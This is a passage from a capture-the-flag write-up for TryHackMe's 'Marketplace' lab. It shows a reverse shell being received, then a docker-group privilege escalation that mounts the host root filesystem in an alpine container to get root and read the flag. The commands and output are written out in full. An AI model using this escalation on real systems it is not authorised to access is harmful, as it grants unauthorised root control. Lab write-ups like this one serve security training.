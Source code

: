```console
Connection received on 10.10.38.49 50788
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
$ 
```
And if we check the group, user micheal is on docker group which means we can create a new container mounting the root filsystem.

### Listing the dcoker images
```console
$ docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        6 weeks ago         2.16GB
nginx                        latest              4bb46517cac3        2 months ago        133MB
node                         lts-buster          9c4cc2688584        2 months ago        886MB
mysql                        latest              0d64f46acfd1        2 months ago        544MB
alpine                       latest              a24bb4013296        4 months ago        5.57MB
```
### Creating a new container mounting the root filesystem
```console
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
the input device is not a TTY
```
It says the input device is not a TTY. So lets get a TTY using python.

### Getting a TTY
```console
$ python -c "import pty;pty.spawn('/bin/bash')"
michael@the-marketplace:/opt/backups$
```

### Creating a new container
```console
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
t /mnt shn -v /:/mnt --rm -it alpine chroot
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```
Here we have created a new docker container from image alpine, mounted the root filesystem to /mnt, started the docker container in interactive mode which will give us a shell to work with, changed the root to /mnt and finally told to delete the container upon exiting.

### Reading root.txt
```console
# cat /root/root.txt
cat /root/root.txt
THM{d4f76************************d62}
```




